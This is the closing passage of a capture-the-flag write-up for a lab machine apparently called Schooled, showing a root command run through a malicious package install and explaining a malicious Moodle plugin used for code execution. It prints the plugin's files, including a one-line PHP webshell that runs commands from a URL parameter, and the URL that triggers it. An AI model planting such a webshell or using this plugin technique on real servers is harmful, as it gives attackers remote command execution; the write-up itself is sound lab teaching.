     New packages to be INSTALLED:                               
            x: 1.0                                              
    
    Number of packages to be installed: 1       
    [1/1] Installing x-1.0...
    uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
    Extracting x-1.0:   0%
    pkg: File //tmp/tmp.E9AA2kxeLQ/x.sh not specified in the manifest
    Extracting x-1.0: 100% 
    

There’s a bunch in there, but four lines from the bottom is the output of `id`
showing root. From there I can get a shell any number of ways.

## Beyond Root

I used a malicious Moodle plugin to get execution on Schooled. Rather than
make one, I downloaded one from [this
GitHub](https://github.com/HoangKien1020/Moodle_RCE). I uploaded the plugin,
and then triggered the webshell at:

    
    
    http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
    

So what is it?

The file is `rce.zip`, and it is a zip archive that contains two files with
some directories:

    
    
    oxdf@parrot$ file rce.zip 
    rce.zip: Zip archive data, at least v1.0 to extract
    oxdf@parrot$ unzip -l rce.zip 
    Archive:  rce.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
            0  2020-06-17 11:23   rce/
            0  2020-06-17 09:52   rce/lang/
            0  2020-06-17 13:43   rce/lang/en/
           30  2020-06-17 11:31   rce/lang/en/block_rce.php
           73  2020-06-17 13:43   rce/version.php
    ---------                     -------
          103                     5 files
    

`version.php` gives some metadata about the “plugin”:

    
    
    <?php 
    $plugin->version = 2020061700;
    $plugin->component = 'block_rce';
    

`block_rce.php` is a simple webshell:

    
    
    <?php system($_GET['cmd']); ?>
    

Moodle must unpack the plugin into the `/blocks/` directory, where I can then
access it.

[](/2021/09/11/htb-schooled.html)

